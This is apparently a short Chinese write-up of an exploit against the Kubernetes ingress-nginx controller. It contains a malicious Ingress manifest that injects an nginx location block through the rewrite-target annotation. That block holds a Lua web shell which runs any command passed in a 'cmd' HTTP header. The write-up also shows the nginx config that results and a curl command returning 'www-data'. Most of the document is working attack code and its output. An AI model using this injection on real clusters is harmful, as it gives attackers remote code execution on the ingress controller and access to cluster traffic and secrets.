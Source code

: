 ## exp

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: evil-nginx
  annotations:
    kubernetes.io/ingress.class: "nginx"
    nginx.ingress.kubernetes.io/rewrite-target: |
      feng/ last;
      }
      location feng/ {
        content_by_lua_block {
          local rsfile = io.popen(ngx.req.get_headers()["cmd"]);
          local rschar = rsfile:read("*all");
          ngx.say(rschar);
        }
      }
      location /fs/{
spec:
  ingressClassName: nginx
  rules:
  - host: "test.feng"
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: exploit
            port:
              number: 80

```

service可以不存在。

原理就是使用了`nginx.ingress.kubernetes.io/rewrite-target`注解会往`nginx.conf`额外注入一段内容，这部分内容正好要拼接到`rewrite "(?i)/"`，因此注入利用rewrite到构造的location中，在这段location里面的content_by_lua_block可以执行恶意的lua命令，而lua是可以rce的，写一段rce的代码即可。



```bash

                        rewrite "(?i)/" feng/ last;
                }
                location feng/ {
                        content_by_lua_block {
                                local rsfile = io.popen(ngx.req.get_headers()["cmd"]);
                                local rsfile = io.popen("ls -al /");
                                local rschar = rsfile:read("*all");
                                ngx.say(rschar);
                        }
                }
                location /fs/{
                        break;
                        proxy_pass http://upstream_balancer;

                        proxy_redirect                          off;

```



```bash
root@k8s-worker:/# curl -H "cmd: whoami" http://test.feng:30080/
www-data
```

